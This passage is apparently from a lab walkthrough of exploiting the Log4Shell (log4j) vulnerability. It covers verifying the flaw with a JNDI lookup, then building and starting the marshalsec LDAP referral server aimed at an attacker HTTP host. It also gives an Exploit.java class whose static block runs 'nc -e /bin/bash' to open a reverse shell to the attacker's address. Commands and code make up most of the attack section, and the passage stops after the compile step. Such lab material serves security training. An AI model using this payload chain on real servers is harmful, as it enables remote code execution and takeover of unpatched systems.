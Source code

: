 ![image](https://user-images.githubusercontent.com/63194321/146553225-01aca8d1-0ff5-4b6c-9a2a-622f33969f29.png)

* We will pass in a variable which is a common payload to attack `log4j` into the web page.

As soon as `curl` reaches the web page, the listener is able to connect to the web page.

![image](https://user-images.githubusercontent.com/63194321/146553808-f59d5f1b-c03f-41ed-87ed-c33df3c44e45.png)

### Exploitation

At this point, you have verified the target is in fact vulnerable by seeing this connection caught in your listener. However, it made an LDAP request... so all your listener may have seen was non-printable characters (strange looking bytes). 


So what we need to do now is build an `LDAP Referral Server`.

Our activity flow will now look like this.

1. `${jndi:ldap://attackerserver:1389/Resource}` -> reaches out to our LDAP Referral Server
2. LDAP Referral Server springboards the request to a secondary `http://attackerserver/resource`
3. The victim retrieves and executes the code present in `http://attackerserver/resource`

This means we will need an HTTP server, which we could simply host with any of the following options (serving on port 8000).

We will answer the questions in this step as follows:

First build `LDAP Referral Server`:
> git clone https://github.com/mbechler/marshalsec

Build LDAP Referral Server with java maven:
> cd marshalsec

> mvn clean package -DskipTests

![image](https://user-images.githubusercontent.com/63194321/146556263-30706ede-ed1d-4c21-bec3-94b3e8a45767.png)

Next start the LDAP server:
> java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"

![image](https://user-images.githubusercontent.com/63194321/146556441-04ef860d-03ea-4968-b9ea-c46431cb2ffd.png)

After the LDAP server runs, we will create a piece of java code to execute arbitrary code.

Create a Exploit.java file with the content:
```
public class Exploit {
     static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 4444");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
  } 
```
After saving the file, we will run this file with the syntax.
> javac Exploit.java
